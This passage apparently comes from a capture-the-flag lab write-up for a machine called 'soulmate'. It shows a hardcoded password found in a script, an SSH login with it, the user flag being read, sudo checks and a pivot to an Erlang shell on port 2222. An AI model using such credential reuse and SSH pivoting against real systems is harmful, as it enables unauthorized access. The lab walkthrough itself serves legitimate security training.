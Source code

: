 ```bash
    end.
```

**JACKPOT!** We found a hardcoded credentials in `start.escript`.

```bash
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

Let's `ssh` with normal port first.

```bash
└─$ ssh ben@10.129.127.216
ben@10.129.127.216's password: 
Last login: Tue Sep 9 03:40:53 2025 from 10.10.16.17
ben@soulmate:~$
```

```bash
ben@soulmate:~$ ls -la
total 28
drwxr-x--- 3 ben  ben  4096 Sep  2 10:27 .
drwxr-xr-x 3 root root 4096 Sep  2 10:27 ..
lrwxrwxrwx 1 root root    9 Aug 27 09:28 .bash_history -> /dev/null
-rw-r--r-- 1 ben  ben   220 Aug  6 10:17 .bash_logout
-rw-r--r-- 1 ben  ben  3771 Aug  6 10:17 .bashrc
drwx------ 2 ben  ben  4096 Sep  2 10:27 .cache
-rw-r--r-- 1 ben  ben   807 Aug  6 10:17 .profile
-rw-r----- 1 root ben    33 Sep  9 03:24 user.txt
ben@soulmate:~$ cat user.txt
2a292f69fd92952b38af8ec0f6415878
```

Grab our `user.txt` flag.

## Initial Access
So we are in `ben` and discovery out some recon.

### Discovery
```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben: 
Sorry, user ben may not run sudo on soulmate.
```

So our user does not have permissions to run `sudo`. <br>
&rarr; Let's back to `www-data` session or we can ssh with port `2222` in `ben` session to see what happen.

```bash
www-data@soulmate:/usr/local/lib/erlang_login$ ssh ben@localhost -p 2222
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```
